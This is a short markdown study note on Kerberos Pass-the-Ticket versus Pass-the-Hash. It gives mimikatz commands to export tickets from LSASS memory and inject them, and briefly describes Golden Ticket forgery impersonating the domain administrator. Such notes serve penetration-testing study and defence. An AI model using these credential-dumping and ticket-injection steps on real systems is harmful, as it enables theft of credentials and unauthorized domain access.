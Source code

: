 ### Difference b/w Pass-The-Hash & Pass-The-Ticket
The kerberos TGT ticket issues have and expiration of 10hrs (can be changes).
In the case of Pass-The-Hash, there is no expiration.

#### Extraction of Tickets in the system
```bash
mimikats
kerberos::list
kerberos::list /export #export the tickets stored in LSASS
```

> LSASS (Local Security Authority Server Service) is a process in Microsoft Windows operating systems that is responsible for enforcing the security policy on the system. It verifies users logging on to a Windows computer or server, handles password changes, and creates access tokens.

<center><i>We can see a ticket is generated in the directory</i></center>

#### Passing tickets using mimikatz
```bash
mimikatz
kerberos::ptt ticket.kirbi
misc::cmd
```


## Application
> Golden Ticket is also good example of Pass The Ticket Attack
> Forged ticket and simultaniously pass the TGT to KDC service to get TSG and enable the attacker to connect to Domain Server
> In the command it impersonates as id 500 for admin